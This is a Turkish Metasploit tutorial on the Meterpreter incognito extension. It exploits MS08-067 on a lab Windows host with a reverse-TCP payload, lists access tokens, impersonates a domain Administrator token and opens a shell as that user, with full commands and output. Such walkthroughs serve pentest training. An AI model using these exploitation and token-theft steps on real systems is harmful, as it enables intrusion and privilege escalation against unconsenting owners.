 ```yaml
---
draft: false
title: MSF Incognito
linkTitle: MSF Incognito
translationKey: msf-incognito
weight: 280
date: 2017-06-05T13:24:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Pentest işlemleri esnasında kullanıcı token ve yetkilerini ele geçirerek kullanmaya incognito işlemi denilmektedir.
url: /tr/msf-incognito/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
---
```

## Incognito Nedir?

Bir sisteme giriş yaptığınızda, sistemde bulunan kullanıcılara ait **token** adı verilen izin ve yetkilendirme kuralları bulunur. Bu kurallar, web uygulamalarında kullanılan **cookie** denilen çerez dosyalarına benzer. Kullanıcı ağdaki bir servise (örn. Net drive) ilk bağlandığında kullanıcı adı ve parolasıyla oturum açar. Oturum açıldığında sistem bu kullanıcıya bir **token** tanımlar. Artık bilgisayar kapanana kadar tekrar tekrar parola girmeden, sistemde bulunan servisi kullanma imkanı olacaktır.

Pentest işlemleri esnasında bu **token** ve yetkilerini ele geçirerek kullanmaya **incognito** işlemi denilmektedir. **token** izinleri, ikiye ayrılmaktadır. Bunlara **delegate** ve **impersonate** adı verilmektedir. Okuyucunun kafasının karışmaması için biz de İngilizce şekillerini kullanmaya devam edeceğiz.

Delegate: token izinleri beyan ediciler olarak kullanılır. Etkileşimli oturumlarda, örneğin uzak masaüstü bağlantıları tarzında işlemler için kullanılırlar.

Impersonate: token izinleri kişisel olarak üretilmiş izinlerdir ve etkileşim olmayan servisler için kullanılırlar. Örneğin bir ağ klasörüne bağlanmak gibi.

Dosya sunucuları bu token izinleri için çok zengin bir bilgi kaynağıdırlar.

Hedef sistemde bir token ele geçirdiğinizde, artık bir servise bağlanmak için o kullanıcının parolasını bilmeye gerek kalmaz çünkü yetkilendirme önceden yapılmıştır ve yetki kontrolü **token** iznine güvenilerek arka planda yapılır. Bir sistemde meterpreter shell açıldığında kullanılabilir durumda olan **token** listesi kontrol edilmelidir.

## Meterpreter Oturum Açalım

Aşağıdaki örnekte, öncelikle `ms08_067_netapi` modülü kullanılarak gerekli ayarlar yapılmakta ve bir oturum açılmaktadır.

```bash
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > set RHOST 10.211.55.140
RHOST => 10.211.55.140
msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(ms08_067_netapi) > set LHOST 10.211.55.162
LHOST => 10.211.55.162
msf exploit(ms08_067_netapi) > set LANG english
LANG => english
msf exploit(ms08_067_netapi) > show targets

Exploit targets:

   Id  Name                                               
   --  ----                                               
   0   Automatic Targeting                                
   1   Windows 2000 Universal                             
   2   Windows XP SP0/SP1 Universal                       
   3   Windows XP SP2 English (NX)                        
   4   Windows XP SP3 English (NX)                        
   5   Windows 2003 SP0 Universal                         
   6   Windows 2003 SP1 English (NO NX)                   
   7   Windows 2003 SP1 English (NX)                      
   8   Windows 2003 SP2 English (NO NX)                   
   9   Windows 2003 SP2 English (NX)                      
   10  Windows XP SP2 Arabic (NX)                         
   11  Windows XP SP2 Chinese - Traditional / Taiwan (NX) 
msf exploit(ms08_067_netapi) > set TARGET 8
target => 8
msf exploit(ms08_067_netapi) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Triggering the vulnerability...
> Transmitting intermediate stager for **over-sized stage...(191 bytes)
> Sending stage (2650 bytes)
> Sleeping before handling stage...
> Uploading DLL (75787 bytes)...
> Upload completed.
> Meterpreter session 1 opened (10.211.55.162:4444 -> 10.211.55.140:1028)

meterpreter >
```

## Incognito Modülünü Yükleyelim

Meterpreter oturumu açmayı başardıktan sonra `incognito` modülünü kullanmamız gerekiyor. `Incognito` modülü, meterpreter e ait bir modül olduğundan `use incognito` komutuyla modülü aktif hale getiriyoruz. Ardından `help` komutunu verdiğinizde, `incognito` modülüne özel komutları görebiliriz.

```bash
meterpreter > use incognito
Loading extension incognito...success.
meterpreter > help

Incognito Commands
**==================**

    Command              Description                                             
    -------              -----------                                             
    add_group_user       Attempt to add a user to a global group with all tokens 
    add_localgroup_user  Attempt to add a user to a local group with all tokens  
    add_user             Attempt to add a user with all tokens                   
    impersonate_token    Impersonate specified token                             
    list_tokens          List tokens available under current user context        
    snarf_hashes         Snarf challenge/response hashes for **every token         

meterpreter >
```

## Sistemdeki token Listesi

Meterpreter içerisinde `incognito` modülünü yükledikten sonra `list_tokens` komutuyla listeyi kontrol edelim. Listede bulunan bir takım **token** izinlerine Administrator kullanıcılarının bile erişimi olmayabilir. Bizim en fazla ilgileneceğimiz tür **SYSTEM** token izinleridir.

```bash
meterpreter > list_tokens -u

Delegation Tokens Available
**========================================**
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY ETWORK SERVICE
NT AUTHORITY\SYSTEM
SNEAKS.IN\Administrator

Impersonation Tokens Available
**========================================**
NT AUTHORITY\ANONYMOUS LOGON

meterpreter >
```

Yukarıda listede bulunan `SNEAKS.IN\Administrator` isimli token fark ettiyseniz **Delegation** listesinde bulunmaktadır. Bunu **Impersonation** haline getirerek kişiselleştirmeniz gerekmektedir. Bunun için `impersonate_token` komutunu kullanacağız. Komutu girerken iki adet `\\` işareti kullanmaya dikkat edin. Listede `\` tek olsa da komutu girerken iki adet girilmelidir.

```bash
meterpreter > impersonate_token SNEAKS.IN\\Administrator
[+] Delegation token available
[+] Successfully impersonated user SNEAKS.IN\Administrator
meterpreter > getuid
Server username: SNEAKS.IN\Administrator
meterpreter >
```

Komut başarıyla sonlandığında `getuid` komutuyla kullanıcı kimliğini kontrol ettiğimizde `Server username: SNEAKS.IN\Administrator` sonucu aldık.

## Yeni Kullacı ile Shell Açma

Meterpreter içerisinde `execute -f cmd.exe -i -t` komutu ile komut satırında oturum açalım ve `whoami` komutuyla Windows kullanıcı kimliğine bakalım. Burada `-i` seçeneği **interact*** yani etkileşimli, `-t` seçeneği ise yeni ele geçirdiğimiz `SNEAKS.IN\Administrator` token iznini kullanmayı ifade eder.

```bash
meterpreter > shell
Process 2804 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32> whoami
whoami
SNEAKS.IN\administrator

C:\WINDOWS\system32>
```

Kişisel bilgisayarlarda karşılaşabileceğiniz **token** izinlerine, sunucu bilgisayarlarda daha çok rast gelebilirsiniz. Sunucularda bir çok servis etkileşimli ve çok kullanıcılı olarak çalıştığından liste daha uzun olacaktır. Bunların arasından en çok yetkili **token** izinleri denemelisiniz.
